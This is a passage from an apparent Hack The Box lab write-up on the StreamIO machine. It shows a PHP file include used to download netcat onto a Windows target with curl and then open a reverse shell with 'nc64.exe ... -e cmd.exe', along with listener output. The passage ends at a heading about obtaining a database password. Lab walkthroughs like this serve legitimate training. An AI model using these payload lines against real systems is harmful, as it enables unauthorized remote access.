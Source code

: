 and it was executed:
```
┌──(glitch💀kali)-[~/…/HTB/labs/Machines/StreamIO]
└─$ sudo python3 -m http.server 80
[sudo] password for glitch: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
127.0.0.1 - - [02/Apr/2025 17:25:06] "GET /test.php HTTP/1.1" 200 -
10.10.14.19 - - [02/Apr/2025 17:25:57] "GET /test.php HTTP/1.1" 200 -
10.10.11.158 - - [02/Apr/2025 17:34:42] "GET /test.php HTTP/1.0" 200 -
```

We can attempt to grab Netcat from our local system and upload to the target using cURL. Stop the

Python web server and edit the test.php to the following syntax.

```
system("curl 10.10.14.23/nc64.exe -o c:\\windows\\temp\\nc64.exe");
```

Download Netcat and start the Python web server.

```
wget https://github.com/int0x33/nc.exe/raw/master/nc64.exe
```

```
sudo python3 -m http.server 80
```

Perform the include to test.php and verify that nc64.exe was collected from the target.

Change the contents of the test.php to make a connection back to our own Netcat listener.

```
system("c:\\windows\\temp\\nc64.exe 10.10.14.23 4444 -e cmd.exe");
```

Then start a Netcat listener locally.
```
nc -lnvp 4444
```

Finally send the request again and verify that you have gotten a shell.


```
┌──(glitch💀kali)-[~/…/HTB/labs/Machines/StreamIO]
└─$ nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.10.14.19] from (UNKNOWN) [10.10.11.158] 60623
Microsoft Windows [Version 10.0.17763.2928]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\inetpub\streamio.htb\admin>

```




Getting the db_admin password:
